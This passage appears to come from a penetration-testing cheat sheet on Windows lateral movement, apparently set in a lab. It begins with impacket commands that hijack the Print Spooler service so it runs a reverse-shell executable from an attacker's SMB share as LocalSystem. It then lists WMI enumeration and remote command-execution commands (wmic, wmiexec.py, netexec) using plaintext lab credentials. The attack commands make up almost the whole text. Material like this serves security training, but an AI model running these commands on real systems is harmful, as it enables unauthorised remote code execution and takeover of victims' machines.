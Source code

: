 ```powershell
DISPLAY_NAME      : Print Spooler  
DEPENDENCIES      : RPCSS/http/
SERVICE_START_NAME: LocalSystem

# Modify binary path name, set start_type to 2
impacket-services ZENCORP/john:'pass123'@172.20.1.51 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2

# Start service
impacket-services ZENCORP/john:'pass123'@172.20.1.51 start -name Spooler
```

### <mark style="color:yellow;">WMI - Windows Management Instrumentation</mark>

**Windows Management Instrumentation (WMI)** is a Windows tool for system management, automation, and monitoring, using **TCP 135** and dynamic ports (**49152-65535**) for communication.

{% hint style="info" %}
It is crucial to have the necessary permissions on the target system, this means having administrative privileges.
{% endhint %}

```powershell
# Check WMi services running 
nmap -p135,49152-65535 10.129.229.244 -sV

# Or NXC
netexec wmi 10.129.229.244 -u john -p pass123

# Get OS details
wmic /node:172.20.0.52 os get Caption,CSDVersion,OSArchitecture,Version
Get-WmiObject -Class Win32_OperatingSystem -ComputerName 172.20.0.52 | Select-Object Caption, CSDVersion, OSArchitecture, Version

# Start process remotely
wmic /node:172.20.0.52 process call create "notepad.exe"
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName 172.20.0.1

# Specify credentials
wmic /user:username /password:password /node:172.20.0.22 os get Caption,CSDVersion,OSArchitecture,Version 

# Get Serial
wmic /node:172.20.0.52 os get SerialNumber
```

#### Lateral movement from Linux

```powershell
# WMIC
wmic -U zencorp.local/john%pass123 //172.20.0.11 "SELECT Caption, CSDVersion, OSArchitecture, Version FROM Win32_OperatingSystem"

# wmiexec.py
wmiexec.py zencorp/john:pass123@172.20.0.52 
wmiexec.py zencorp/john:pass123@172.20.0.52 whoami
wmiexec.py zencorp/john:pass123@172.20.0.52 whoami -nooutput

# netexec
netexec wmi 172.20.0.52 -u john -p pass123 --wmi "SELECT * FROM Win32_OperatingSystem"

# netexec Command
netexec wmi 172.20.0.52 -u john -p pass123 -x whoami
```